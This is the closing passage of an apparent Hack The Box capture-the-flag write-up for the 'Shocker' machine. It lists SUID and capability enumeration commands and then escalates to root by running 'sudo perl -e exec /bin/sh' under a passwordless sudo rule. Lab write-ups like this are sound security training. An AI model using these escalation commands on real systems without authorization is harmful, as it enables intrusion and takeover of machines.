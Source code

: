 I continue to enumerate the box and find a special permission for the user `shelly`, she can run the `perl` binary as the `root` user without entering the password. On the **[GTFObins](https://gtfobins.github.io/gtfobins/perl/#sudo){:target="_blank"}** website I find the command I need to escalate privileges and I was able to rooted the box.

```bash
find \-perm -4000 2>/dev/null
ls -l ./usr/bin/pkexec
# -rwsr-xr-x 1 root root 23376 Jan 17  2016 ./usr/bin/pkexec

getcap -r / 2>/dev/null
sudo -l
# (root) NOPASSWD: /usr/bin/perl

sudo perl -e 'exec "/bin/sh";'
```

<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_38.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_39.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_40.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

> It's not one of the most complicated boxes in **Hack The Box**, but as I always say, you have to keep as much as you can learn and even try different attack vectors and take advantage of the machine to try other things. I have to kill the machine with **htbExplorer** and move on to the next lab.

```bash
./htbExplorer -k Shocker
```
